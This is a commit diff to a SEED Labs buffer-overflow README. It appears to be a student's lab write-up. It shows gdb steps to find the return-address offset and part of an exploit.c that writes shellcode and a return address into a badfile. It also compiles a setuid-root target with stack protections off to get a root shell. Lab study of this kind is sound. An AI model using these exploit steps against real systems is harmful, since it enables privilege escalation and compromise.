

Before and after one commit to li-xin-yi/seedlab, a Markdown page: Buffer-Overflow/README.MD, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
buffer overflow finsh

````diff
--- a/Buffer-Overflow/README.MD
+++ b/Buffer-Overflow/README.MD
@@ -14,7 +14,7 @@ Use default `DBUF_SIZE` (i.e. 24)
 
 ## Find the address to attack
 
-```shell
+```sh
 $ gcc -z execstack -fno-stack-protector -g -o stack_gdb stack.c
 $ gdb stack_gdb
 gdb-peda$ p $ebp
@@ -27,7 +27,8 @@ $3 = 32
 
 It shows that the value of the frame pointer is `0xbfffeb08`. So the return address is in `0xbfffeb08 + 4` and the first address we can jump to is `0xbfffeb08 + 8`. The distance between `ebp` and the buffer's starting address is 32. Added by 4 bytes stored the return address above, the distance is 36.
 
-So use the [`exploit.c`](./exploit.c) below to compose the `badfile`. The critical code part as below:
+## C version
+So use the [`exploit.c`](./exploit.c) to compose the `badfile`. The critical code part as below:
 
 ```c
 int start = 517 - sizeof(shellcode);
@@ -38,7 +39,7 @@ strcpy(buffer + 36, (char *)&ret);
 ```
 
 Then compile and execute all those files as the order of:
-```shell
+```sh
 $ gcc -o stack -z execstack -fno-stack-protector stack.c
 $ sudo chown root stack
 $ sudo chmod 4755 stack
@@ -51,0 +112 @@ Then you can see a new root bash start with `#`.
+The buffer overflow do occur. But the non-executable stack protection prevents the crash program from running the shell code.
````
Also changed, not shown: other parts of Buffer-Overflow/README.MD (+59 -0 lines), Buffer-Overflow/brute_force.png (added), 2 other files.
